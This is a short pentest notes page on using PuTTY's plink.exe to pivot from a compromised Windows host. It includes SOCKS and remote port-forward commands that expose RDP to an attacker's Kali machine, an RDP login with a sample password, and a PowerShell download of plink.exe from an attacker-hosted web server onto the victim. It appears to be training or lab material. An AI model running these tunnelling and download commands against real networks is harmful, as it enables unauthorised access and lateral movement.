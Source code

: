 ```yaml
---
description: >-
  Plink, short for PuTTY Link, is a Windows command-line tool that comes as a
  part of PuTTY. The tool is a choice for many sysadmins.
---
```


# plink.exe

Before 2018, Windows did not have a native SSH client so users would have to install their own. Plink is PuTTy's command-line counterpart.

Instead of pulling our own tools onto a host and risk the chance of being exposed, we can live off the land and use what is already there.

## Using plink.exe

### Dynamic Port Forward

```bash
C:\Users\Windows-Victim\>plink -D 9050 jump-host@10.129.15.50
```

The `-D` flag sets up dynamic port forward. The client listens on port `9050` and implements a SOCKS server.

### Remote Port Forward

```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Confirming Port Forward

```shell-session
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128        127.0.0.1:9833      0.0.0.0:*
tcp   LISTEN 0      5            0.0.0.0:80        0.0.0.0:*     users:(("python3",pid=1048255,fd=3)) 
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*
tcp   LISTEN 0      128             [::]:22           [::]:*
kali@kali:~$ 
```

We open local port **9833** on our Kali Host

### Connecting Successfully

```shell-session
kali@kali$ xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```



## Pulling plink.exe on compromised host

We can pull the plink.exe binary on our compromised host

### Locating Binary on Kali Box

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
</strong></code></pre>



### Downloading Binary on Compromised host

```bash
C:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
```



Another Windows-based tool called [Proxifier](https://www.proxifier.com/) can be used to start a SOCKS tunnel via the SSH session we created.&#x20;
